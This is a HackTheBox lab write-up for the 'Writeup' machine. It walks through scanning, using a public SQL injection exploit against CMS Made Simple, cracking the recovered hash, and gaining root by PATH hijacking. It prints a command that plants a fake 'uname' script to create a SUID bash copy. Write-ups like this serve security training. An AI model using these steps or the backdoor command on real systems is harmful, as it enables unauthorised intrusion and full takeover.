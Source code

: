 ```yaml
---
title: "HackTheBox - Writeup"
author: Nasrallah
description: ""
date: 2023-02-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, sqli, hashcat, cracking]
img_path: /assets/img/hackthebox/machines/writeup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Writeup](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.138
Host is up (0.18s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd5310700bd0470ae27e4ab6429823c7 (RSA)
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running SSH and 80 running an Apache http web server.

There is a robots.txt file in the web server with a disallowed entry of `/writeup`

## Web

Let's navigate to the web page.

![](1.png)

Here we got a message form `jkr` stating that there is a script in place where it watches for 40x error in Apache and bans IPs, so we cant't really run gobuster or any other automated tool.

Let's check the /writeup directory.

![](2.png)

This is where the author put writeups.

Checking the source code, we find that this page is generated by CMS Made Simple

![](3.png)

Checking the [source code](http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/doc/) of this CMS, we find the file `/docs/CHANGELOG.txt` reveals the current version of the used CMS.

On the target system, we find that the version is 2.2.9.1.

## Searchsploit

Let's check if this version has any vulnerabilities.

```terminal
└──╼ $ searchsploit made simple  2.2
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                        | php/webapps/4810.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                              | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                                | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                                    | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                                 | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                                | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                                    | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                               | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                               | php/webapps/45793.py
CMS Made Simple < 2.2.10 - SQL Injection                                                                                    | php/webapps/46635.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                
```

There is a sql injection vulnerability, let's copy the exploit with `searchsploit -m php/webapps/46635.py`

# **Foothold**

Now let's run the exploit.

![](4.png)

The exploit gave us a username, a salt and a hash.

Let's combine the salt and hash and put it in a file to crack it.

```bash
$ cat hash.txt
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
```

Using hashcat with mode 20 and rockyou wordlist to crack the hash.

![](5.png)

We got the password, now we can ssh into the machine.

![](6.png)

# **Privilege Escalation**

By running the command id, we notice that user jkr, is part of a group called `staff`.

```terminal
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

After running linpeas. we also see that this group has write permission over `/usr/local/*`.

![](7.png)

Also the PATH starts with the /usr/local/bin directory

```terminal
jkr@writeup:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We can use this to exploit any binary that's running without a full path.

Using [pspy64](https://github.com/DominicBreuker/pspy) we can see any commands or cronjob that are running on the system. Let's see if we can find a binary that's running without a full path.

![](8.png)

There were no cronjobs running, so i tried to ssh into the machine again and captured the command uname running without a path.

With the following command, i created a `uname` script that's going to make copy of bash with suid bit.

```bash
echo 'cp /bin/bash /tmp && chmod +s /tmp/bash' > /usr/local/bin/uname && chmod +x /usr/local/bin/uname
```

Now we ssh again and run `/tmp/bash -p`

![](9.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).